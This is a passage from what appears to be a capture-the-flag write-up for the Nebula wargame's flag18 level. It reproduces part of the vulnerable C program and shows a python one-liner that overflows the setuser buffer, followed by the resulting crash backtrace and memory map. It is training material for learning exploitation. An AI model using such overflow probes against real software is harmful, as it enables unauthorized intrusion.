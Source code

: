    } else if(strncmp(line, "logout", 6) == 0) {
      globals.loggedin = 0;
    } else if(strncmp(line, "shell", 5) == 0) {
      dvprintf(3, "attempting to start shell\n");
      if(globals.loggedin) {
        execve("/bin/sh", argv, envp);
        err(1, "unable to execve");
      }
      dprintf("Permission denied\n");
    } else if(strncmp(line, "logout", 4) == 0) {
      globals.loggedin = 0;
    } else if(strncmp(line, "closelog", 8) == 0) {
      if(globals.debugfile) fclose(globals.debugfile);
      globals.debugfile = NULL;
    } else if(strncmp(line, "site exec", 9) == 0) {
      notsupported(line + 10);
    } else if(strncmp(line, "setuser", 7) == 0) {
      setuser(line + 8);
    }
  }

  return 0;
}
{% endhighlight %}

This is quite a lot a of code, but let's see what it does. The program accepts 
two arguments `-v` and `-d` which increase verbosity level and set a debug file
respectively. If you launch it with `flag18 -v -v -v -d /tmp/debug` and then
`tail -f /tmp/debug` you can see what's going on. I used 3 `-v` because that's
the max debug level to be sure to capture everything.

Once it's running there's a number of commands we can issue. These are probably
going to give us something to poke around with. We can try to get a shell with
the *shell* command, but that means we need to be logged in. I'll make a 
note of that. The `setuser` function has a fixed sized buffer. Let's try to 
overflow that

{% highlight console %}
level18@nebula:/home/flag18$ python -c "print('setuser ' + 'A'*128)" | ./flag18 -v -v -v -d /tmp/flag18/debug
*** buffer overflow detected ***: ./flag18 terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0x6998d5]
/lib/i386-linux-gnu/libc.so.6(+0xe66d7)[0x6986d7]
/lib/i386-linux-gnu/libc.so.6(+0xe5d35)[0x697d35]
/lib/i386-linux-gnu/libc.so.6(_IO_default_xsputn+0x91)[0x61df91]
/lib/i386-linux-gnu/libc.so.6(_IO_vfprintf+0x31d5)[0x5f5305]
/lib/i386-linux-gnu/libc.so.6(__vsprintf_chk+0xc9)[0x697e09]
/lib/i386-linux-gnu/libc.so.6(__sprintf_chk+0x2f)[0x697d1f]
./flag18[0x8048df5]
./flag18[0x8048b1b]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0x5cb113]
./flag18[0x8048bb1]
======= Memory map: ========
005b2000-00728000 r-xp 00000000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
00728000-0072a000 r--p 00176000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
0072a000-0072b000 rw-p 00178000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
0072b000-0072e000 rw-p 00000000 00:00 0
0079b000-007b9000 r-xp 00000000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
007b9000-007ba000 r--p 0001d000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
007ba000-007bb000 rw-p 0001e000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
007fd000-007fe000 r-xp 00000000 00:00 0          [vdso]
00886000-008a2000 r-xp 00000000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
008a2000-008a3000 r--p 0001b000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
008a3000-008a4000 rw-p 0001c000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1